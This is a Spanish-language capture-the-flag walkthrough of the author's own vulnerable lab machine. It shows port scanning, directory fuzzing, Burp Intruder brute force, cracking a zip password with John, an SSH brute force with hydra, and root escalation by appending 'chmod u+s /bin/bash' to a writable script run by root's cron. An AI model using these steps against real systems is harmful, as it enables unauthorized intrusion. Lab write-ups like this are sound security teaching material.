






Este write up pertenece a mi primera máquina vulnerable creada por mi!!
Vamos a ello :)

Empezaremos haciendo un escaneo básico de puertos abiertos:

```
sudo nmap -p- -sS -sC -sV --min-rate 5000 -n -vvv -Pn 172.17.0.2
```

Y tenemos los puertos 80, 22 y 3306 abiertos

Empezaremos visitando la web y vemos la siguiente página:


Si vemos el código fuente nos encontramos con el siguiente mensaje:

```
 I am Grooti...
        Creo que Rocket ha entrado a mi base de datos...
```

Y si accedemos al apartado "Mis fotos" veremos un README.txt con el siguiente contenido:

```
(password1) Encuentra donde ponerla ;)
```

Parece ser la contraseña de una base de datos.
Si accedemos al apartado de "Mi base de datos" nos sale "not found" habrá que encontrar el directorio de la base de datos. Para ello haremos fuzzing web:

```
gobuster dir -u http://172.17.0.2/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt
```

Y nos encuentra un directorio nuevo:

```
http://172.17.0.2/secret/
```

Accedemos a ella y nos encontramos con esto:




Aparece un panel de una base de datos, y podemos descargarnos un archivo que se llama instrucciones. Vamos a ver que contiene:

```
look carefully here ;)
```

Este mensaje nos aparece al principio pero si bajamos abajo del todo:

```
mysql -u rocket -p -h 172.17.0.2 --ssl=0
```

Tenemos el comando para acceder a mysql, probaremos con la contraseña de antes: password1

Conseguimos acceso a la base de datos y ahora para ver que hay haremos lo siguiente:

```
show databases;
+--------------------+
| Database           |
+--------------------+
| files_secret       |
| information_schema |
| performance_schema |
+--------------------+

MySQL [(none)]> use files_secret;

Database changed
MySQL [files_secret]> show tables;
+------------------------+
| Tables_in_files_secret |
+------------------------+
| rutas                  |
+------------------------+

MySQL [files_secret]> select * from rutas;
+----+------------+---------------------------------+
| id | nombre     | ruta                            |
+----+------------+---------------------------------+
|  1 | imagenes   | /var/www/html/files/imagenes/   |
|  2 | documentos | /var/www/html/files/documentos/ |
|  3 | facturas   | /var/www/html/files/facturas/   |
|  4 | secret     | /unprivate/secret               |
+----+------------+---------------------------------+
```

Encontramos un nuevo directorio secreto, vamos a verlo:



Vemos esta página donde nos piden dos entradas de texto, la segunda tiene que ser un número del 1 al 100. Vamos a probar que pasa poniendo hola y el número 1. Se nos descarga un archivo que pone lo siguiente:

```
Buen intento!
```

Vemos que se nos descarga un archivo llamado password*.txt donde el asterisco es el número que le demos, vamos a probar con el 5, 3 y con el último que se puede el 100:

```
paswword5.txt = Asi no lo vas a conseguir...
password100.txt =Caaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaasi ;)
password3.txt = Igual la fuerza bruta es un recurso...
```

Vaya, capturaremos la petición con burpsuite y la petición se la mandamos al intruder para hacer fuerza bruta. Lo configuramos así y lanzamos el ataque:




En el ataque vemos que el número 16 su "length" es muy superior al resto, por tanto cogeremos su petición y la envíamos:






En el apartado proxy le damos a "forward" y automáticamente se nos descarga un password16.zip, que a su vez esta protegido con contraseña. Vamos a crackearla:

```
zip2john password16.zip >> hash
```

```
john --wordlist=/usr/share/seclists/Passwords/xato-net-10-million-passwords-100000.txt hash 

Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
password1        (password16.zip/password16.txt) 
```

La contraseña del .zip es: password1, descomprimimos y nos saca un password16.txt, que es un diccionario de contraseñas, haremos fuerza bruta a ssh con el usuario "grooti", ya que en la página principal, se menciona: "I am grooti":

```
hydra -l grooti  -P password16.txt  ssh://172.17.0.2 

[22][ssh] host: 172.17.0.2   login: grooti   password: YoSoYgRoOt

```

Ya tenemos la contraseña, vamos a acceder a ssh ahora. Y conseguimos acceder a la máquina!!

ESCALADA DE PRIVILEGIOS

Para la escalada, esta máquina, esta configurada por el crontab:

```
crontab -e 

* * * * * /opt/cleanup.sh
```

```
cat cleanup.sh 
#!/bin/bash

bash /tmp/malicious.sh
```

No tenemos permisos de escritura, pero el script dice que se está ejecutando otro script en /tmp, iremos allí.

En /tmp hay este script: malicious.sh donde se ejecuta una creación de logs y posteriormente se elimina.

```
cat malicious.sh 
#!/bin/bash

LOG_TEMP="/tmp/mi_log_temporal.log"

echo "Log temporal creado a $(date)" > "$LOG_TEMP"
echo "Archivo $LOG_TEMP creado."

sleep 2

rm -f "$LOG_TEMP"
echo "Archivo $LOG_TEMP eliminado después de 2 segundos."
```

Aquí si tenemos permisos de escritura y como, root, por el crontab, ejecuta cada minuto el script de /opt que a su vez ejecuta este script, vamos a modificarlo para que nos devuelva una bash como root:

```
echo 'chmod u+s /bin/bash' >> malicious.sh 
```

Esperamos un minuto, ejecutamos bash -p y...

```
grooti@7e045e587dbb:/tmp$ bash -p
bash-5.2# whoami
root
```

Finalemente pwned ;)

```
bash-5.2# cd /root
bash-5.2# cat grooti.txt 
⠰⣶⣶⣶⣄⠀⠀⠀⢀⣀⠀⠀⣠⣄⡀⠀⠀⠀⠀⠀⠀⠀
⠀⠻⣿⣿⣿⡀⠀⠀⣿⠿⠷⢾⡏⠉⣿⣄⢀⣿⣷⡆⠀⠀
⢀⣠⣬⡁⢸⣿⣶⣿⣿⡇⠀⣾⡇⠀⣿⡏⠛⢻⣿⢧⣤⠀
⢸⣿⡿⡿⢻⠇⠀⢿⣿⡇⣠⣿⡇⣼⡿⠀⠀⣼⡏⢠⣾⠀
⢸⣿⡀⢀⣿⠀⣴⠈⣿⣿⣿⣿⣿⣿⠃⣾⣤⣿⠀⣼⣿⠀
⢸⣿⣧⢸⣿⣧⣿⣇⣿⣿⣿⣿⣿⣿⣾⣿⣿⣏⣼⣿⣿⠀
⢿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⡄
⠈⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⠁
⠀⢹⣿⣿⣿⣿⣿⠉⠙⣿⣿⣿⣿⣿⡯⠉⢻⣿⣿⣿⣿⠀
⠀⠸⣿⣿⣿⣧⡀⠀⣠⣿⣿⣿⣿⣄⠀⢀⣼⣿⣿⣿⠇⠀
⠀⠀⢻⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⡟⠀⠀
⠀⠀⠘⣿⣿⣿⣿⣿⡿⠿⠿⢿⣿⣿⣿⣿⣿⣿⡟⠁⠀⠀
⠀⠀⠀⠘⣿⣿⣿⣿⣷⣄⣀⣀⣠⣿⣿⣿⣿⠏⠀⠀⠀⠀
⠀⠀⠀⠀⠈⠛⢿⣿⣿⣿⣿⣿⣿⣿⣿⠟⠁⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠈⠛⠿⠿⠟⠛⠉⠀⠀⠀⠀
```
